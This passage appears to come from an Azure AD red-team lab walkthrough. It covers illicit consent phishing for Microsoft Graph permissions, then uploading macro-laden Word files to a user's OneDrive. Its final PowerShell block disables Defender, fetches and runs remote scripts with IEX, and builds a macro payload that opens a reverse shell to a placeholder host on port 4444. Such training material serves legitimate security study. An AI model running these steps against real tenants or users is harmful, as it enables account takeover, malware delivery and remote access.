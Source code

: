 Note that only the permissions that we requested earlier are available with the access token. We can list all the users thanks to **User.ReadBasic.All**.

```powershell
$Token = 'eyJ0eXAiOiJK...'
$URI = 'https://graph.microsoft.com/v1.0/users'
$RequestParams = @{
    Method = 'GET'
    Uri = $URI
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}
(Invoke-RestMethod @RequestParams).value
```



We need to target an Application Administrator to grant consent for better permissions.

> Ideally, we have to target all the users

We need to register a new app (or modify an existing one) and now request permissions that need admin consent:
```
mail.read
notes.read.all
mailboxsettings.readwrite
files.readwrite.all
mail.send
```

Generate a new link using 'Read More' on [https://localhost](https://localhost) and send an email to the user containing that link (Remember to change the client ID if you register a new application):

Once the user simulation grants consent, we will get the access token of the application administrator.


Using the access token of the application administrator, we can use 365-stealer to upload macro-infested doc files to the user's OneDrive.

- The user simulation will open these macro-infested Word files and execute the macro.

A licensed version of Office 365 is available to create doc files

```powershell
$passwd = ConvertTo-SecureString "password" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("office-vm\administrator", $passwd)
$officeVM = New-PSSession -ComputerName <ip> -Credential $creds
Enter-PSSession -Session $officeVM
```

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
IEX (New-Object Net.Webclient).downloadstring("http://<ip>:82/Out-Word.ps1")
Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://<ip>:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress <ip> -Port 4444" -OutputFile studentx.doc
Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\studentx.doc -Destination C:\AzAD\Tools\studentx.doc
```
